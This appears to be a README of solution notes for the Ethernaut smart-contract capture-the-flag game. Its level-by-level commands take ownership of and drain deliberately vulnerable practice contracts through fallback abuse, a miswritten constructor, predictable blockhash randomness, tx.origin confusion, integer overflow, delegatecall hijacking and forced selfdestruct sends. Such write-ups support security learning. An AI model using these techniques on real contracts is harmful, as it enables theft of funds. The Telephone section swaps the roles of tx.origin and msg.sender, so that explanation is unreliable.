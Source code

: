 # openzeppelin-ethernaut


## Fallback

The first step is to call the funtion contribute, to be able to call the fallback funtion a get the ownership of the contract 

`await contract.contribute({value: toWei("0.0001")});`

`await sendTransaction({ from: player, to: contract.address, value: toWei("0.0001")});`

After claiming the ownership of the contract, withdraw the total value of the contract, calling the withdraw method

`await contract.withdraw()`

## Fal1out

The alleged constructor is not well written, so it not called when the contract is created. To claim the ownership just call the Fal1out method and then withdraw the value of the contract calling the method collectAllocations

`await contract.Fal1out({value: toWei("0.0001")})`

`await contract.collectAllocations()`

## CoinFlip

Create a contract that calls the CoinFlip contract, this contract uses the same method to guess the coin side

`uint256 blockValue = uint256(blockhash(block.number.sub(1)));`
`uint256 coinFlip = blockValue.div(FACTOR);`
`bool guess = coinFlip == 1;`
`coinFlipContract.flip(guess);`

## Telephone

tx.origin and msg.sender should be different, to achieve this you can call the changeOwner method via another smart contract. This way the tx.origin(smar contract address) and msg.sender(user address) are not the same.

## Token

The smart contrac has an overflow vulnerability in every math operation, to solve this problem just call the transfer method (from other account) and send it to your main account.

## Delegatecall

Delegatecall is a low level function similar to call. When contract A executes delegatecall to contract , B's code is executed with contract A's storage, msg.sender and msg.value. IMPORTANT: IN B CONTRACT STORAGE LAYOUT MUST BE THE SAME AS CONTRACT A

To solve this problem you have to call the pwn method from Delegate contract, via the fallback function of the Delegation contract. To call the pwn method you from the fallback you have to encode the call `bytes4(sha3("pwn()")`

`await sendTransaction({from: player, to: contract.address, data: "0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"})`

## Force

A contract cannot refuse funds given by another contract's selfdestruction. Therefore, all we have to do is create a contract, send ether to it, and selfdestruct it in favor of the Force contract.